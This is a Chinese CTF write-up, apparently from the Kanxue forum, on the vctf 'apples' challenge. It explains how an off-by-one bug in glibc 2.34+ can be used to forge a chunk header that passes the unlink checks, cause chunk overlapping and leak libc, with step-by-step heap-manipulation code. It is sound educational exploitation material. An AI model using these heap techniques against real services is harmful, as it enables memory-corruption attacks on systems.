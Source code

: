 #  vctf apples leak libc操作复现(高版本libc overlapping)   
ElegyYuan0x1  看雪学苑   2024-04-20 18:02  
  
题目中存在off_by_one libc版本2.34以上我们没办法使用常规的overlapping 泄露libc地址。  
  
  
所以我们要精心构造一个chunk head来绕过新版本的检查机制，实现leak libc的操作。  
  
  
文章中我们先讲原理，在最后会将Arahat0师傅的脚本给出来。  
  
  
  
```
```  
  
  
  
◆2.34下的合并检查机制  
  
  
检查size是否对得上：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXRJxN22Dy0GaNt3K6yD0zxIb8eEqzcjyFJia2uIjP3FnsGrxiarBCkglw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
unlink检查：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXYnBkCqCJbbHoYEylujuFY5yqIeWicr0uaeZT6Geliak8P3Kd050GicxpA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
```
```  
  
> 这里先简单说一下我们要干什么，  
> 后面详细说一下我们的利用流程。  
  
  
  
◆构造一个chunkheader 让它的size fd bk都符合检查机制。  
  
  
  
```
```  
  
  
### 构造chunk header  
> 主要是构造合法的size fd bk 我们把我们构造的chunk叫做fake chunk  
  
  
  
◆代码  
```
add(0x410, "a" * 8)  # 0  290
add(0x100, "a" * 8)  # 1  6b0
add(0x430, "a" * 8)  # 2  7c0
add(0x430, "a" * 8)  # 3  c00
add(0x100, "a" * 8)  # 4  1040
add(0x480, "a" * 8)  # 5  1150
add(0x420, "a" * 8)  # 6  15e0
add(0x10, "a" * 8)  # 7  1a10
 
free(0)
free(3)
free(6)
# 触发合并 然后合成一个0x860的大chunk 让我们可以分割
# 并且我们的fd和bk在0x430+16字节的位置 也就是0x440位置存在fd和bk
free(2)
# add一个比chunk 0 chunk6都大的chunk这样就会去分割0x860chunk 然后我们控制我们的payload 设置一个size到原本size的地方
# 这样fd和bk分别指向chunk 0 和chunk 6 这样我们可以构造一个 合法的chunk head头
add(0x450, b"a" * 0x438 + p16(0x551))  # 0
# 将 chunk3 变为allocted
add(0x410, "a" * 8)  # 2
add(0x420, "a" * 8)  # 3
add(0x410, "a" * 8)  # 6
```  
  
  
◆free 3个chunk(chunk0 chunk3 chunk6) 这样chunk3(的fd和bk分别指向chunk 0 chunk6。  
> 这里需要特殊说明 这里的chunk3的地址要特殊一些 也就是最低的地址为00 这样方便我们后面使用off_by_one漏洞来实现修改fd/bk的低地址为0来让FD->bk BK->fd 指向我们伪造的chunk (后面会详细说明)  
  
  
  
  
◆free 一个chunk 让两个chunk(chunk3 与chun2)合并 这样就保留了fd(chunk 0)和bk(chunk6)在一个大的chunk中。  
  
  
◆然后我们将这个大chunk分割为chunk3 和chunk4 让我们自己构造的size刚好覆盖在原chunk3 size 位置 详细看下方图。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXKYT4a2AQibe1UY3kSp2SicpP6g5DOwk0k5ic21OgLBiaAcicrojHicsOVGXQ/640?wx_fmt=png&from=appmsg "")  
  
  
◆分割大chunk 并且构造size  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXQmLfYfaQNscl5biaPsiaECZ8uibQrc53wpcbN8laeYNlzkBQYaa2uGjoQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
◆这里我们已经成功构造好了 size和fd bk 那么后面我们就要想办法让chunk 0的bk 和chunk6的fd指向我们构造的chunk。  
  
### 构造FD->bk  
> 这里主要是利用先让chunk0的bk 指向chunk3 然后利用off_by_one漏洞覆写bk 指向我们的fake chunk  
  
  
  
◆代码  
```
# 覆写chunk0的fd
free(6) #free的chunk 3
free(2) #free的chunk 0
add(0x410, "a" * 8)  # 2
add(0x410, "a" * 8)  # 6
```  
  
  
◆示意图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXBAgpm2VAfXoUIHHLdXsfp89QF5lpWgKM9jkFuo8KibjppmwqDdyycKw/640?wx_fmt=jpeg&from=appmsg "")  
  
### 构造BK->fd  
> 这里就要复杂一点了，因为修改chunk 6 的fd不能像修改FD->bk那样直接free，然后add。  
> 我们需要利用 合并机制来修改，也就是先free chunk3 chunk 6 以及chunk5 触发chunk6和chunk5合并。  
> 然后我们分割一个chunk 5出来，并且向原本chunk6 size fd位置赋值。  
  
  
  
◆代码  
```
free(6)
free(3)
free(5)
 
add(0x4f0, b"b" * 0x488 + p64(0x431))  # 3
add(0x3b0, "a" * 8)  # 5
```  
  
  
◆示意图  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhX1IJVu4s2dmjqZBj9YFQxfedu7nbvUppVzawBcHg8Hsg0DWvGqkdLHw/640?wx_fmt=png&from=appmsg "")  
  
  
◆add后  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXKszVQA4BmlWibSUbp4Vick4gAqTmaJOXwJXOCJdP4VoRjuN4QyYGW94A/640?wx_fmt=png&from=appmsg "")  
###   
### 构造合并chunk  
> 这里就要简单很多了，就是利用一次合并机制和分割机制，造成prev_inuse变为0，并且构造好prev_size。  
> 只不过我们还是得调整一下要选择合并的chunk的位置，因为我们刚才构造的fake chunk大小为0x550，所以我们要在fake chunk往下0x550位置弄出一个 allocted chunk。  
> 下面的解释其实有失偏颇，因为其实是我们专门计算的0x550这个数据，刚好对上一个chunk，但是为了方便理解我们选择倒推的方式。  
  
  
  
◆代码  
```
free(4)
 
add(0x108, b"c" * 0x100 + p64(0x550))  # 4
add(0x400, "a" * 8)  # 6
free(3)
add(0x10, "a" * 8)  # 3
show(6)
```  
  
  
◆首先我们看一下 fakechunk 0x550偏移位置坐标在哪里。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXjk3OWU3sAwLaehKWN1thTqHxuyE1jsCRhvs8YfkvCZ9gEpU2SCqpxg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXcqbxEsUUicOn5IduKMiciaJg1g0oTJpI7Vxicic3AyTJpY1NGlqT9n6xm4g/640?wx_fmt=jpeg&from=appmsg "")  
  
  
◆根据地址我们知道 也就是我们要修改的chunk为chunk 5 那么我们就去free掉chunk 4(大小0x110)然后malloc回来 写入数据覆盖到chunk 5的prev_inuse 并且构造好0x550的prev_size。  
  
  
◆示意图  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhXxiaib0icE3ibOdH9pmyfO1rziao96PYfTCy3JSeLegmSHCIbRFL5vd6jDrw/640?wx_fmt=jpeg&from=appmsg "")  
  
  
◆此时我们成功完成构造 最后只需要 free掉chunk 5触发合并机制 然后我们成功完成一次overlapping 可喜可贺。  
  
  
  
```
```  
  
  
  
```
```  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8EVZkYiaajv3pMhJIGXgiaBhX2GF6sI0gxAJkTUxzntP4nib9ghzlS1sEyLUe6uLibN3chlHKINeeHphQ/640?wx_fmt=png&from=appmsg "")  
  
  
**看雪ID：ElegyYuan0x1**  
  
https://bbs.kanxue.com/user-home-994584.htm  
  
*本文为看雪论坛优秀文章，由 ElegyYuan0x1 原创，转载请注明来自看雪社区  
  
  
[](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458550539&idx=1&sn=99d99a504e0b364140e6cfe6c561f0b1&chksm=b18db18186fa389736b29f09c357e9d8c3ecbc37c6411d7664c2876cb7d8d99311810e406a4c&scene=21#wechat_redirect)  
  
  
  
**#****往期推荐**  
  
1、[自定义Linker实现分析之路](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458550539&idx=2&sn=e3a883e6de9929783e4920b1ae75802d&chksm=b18db18186fa38971cf9a67439421e62a1c3e1dbeb2cdc974c70ab52186fe92738ed759cf003&scene=21#wechat_redirect)  
  
  
2、[逆向分析VT加持的无畏契约纯内核挂](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458550427&idx=1&sn=399ad869e9f33b368de123b079ca1ff2&chksm=b18db01186fa390707f03c65e957277ed4eb7d250bbce02130ab2d6324c0c4cd9ab837e01802&scene=21#wechat_redirect)  
  
  
3、[阿里云CTF2024-暴力ENOTYOURWORLD题解](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458550386&idx=1&sn=ef197d9dc41313d624d8e297d6cc5f9a&chksm=b18db0f886fa39eedca81d2ebee9e73e689d9db0bfdcb9831d8ebe4a759a5c55f98aff2a771b&scene=21#wechat_redirect)  
  
  
4、[Hypervisor From Scratch - 基本概念和配置测试环境、进入 VMX 操作](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458550275&idx=1&sn=c1b54dc12abbcb627796db92d4f9c2fc&chksm=b18db08986fa399ff036a52bbbe579808ba65111151b31af848628a464efe064e4fbd7c6c1d9&scene=21#wechat_redirect)  
  
  
5、[V8漏洞利用之对象伪造漏洞利用模板](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458550274&idx=1&sn=83844418c6e1fb22d4d8c2033abdea5e&chksm=b18db08886fa399ee2927fefc6f01c0213e126ef3248a8ecc439231526e9e56e69f937a29a3c&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uia4617poZXP96fGaMPXib13V1bJ52yHq9ycD9Zv3WhiaRb2rKV6wghrNa4VyFR2wibBVNfZt3M5IuUiauQGHvxhQrA/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/1UG7KPNHN8GJubmq65v9uBFmEJuoJD78321RiaLpp3FAylJv0nbibloCFmXdVe4wvW4ibgnCc6srNI8sGBkX14MpQ/640?wx_fmt=gif&from=appmsg "")  
  
**球分享**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/1UG7KPNHN8GJubmq65v9uBFmEJuoJD78321RiaLpp3FAylJv0nbibloCFmXdVe4wvW4ibgnCc6srNI8sGBkX14MpQ/640?wx_fmt=gif&from=appmsg "")  
  
**球点赞**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/1UG7KPNHN8GJubmq65v9uBFmEJuoJD78321RiaLpp3FAylJv0nbibloCFmXdVe4wvW4ibgnCc6srNI8sGBkX14MpQ/640?wx_fmt=gif&from=appmsg "")  
  
**球在看**  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/1UG7KPNHN8GJubmq65v9uBFmEJuoJD78txPhfvI9WpuGSCawCN8NJCgzD16Y0IwdUkaI33Qr3DpwRRuvibgRQOg/640?wx_fmt=gif&from=appmsg "")  
  
点击阅读原文查看更多  
  
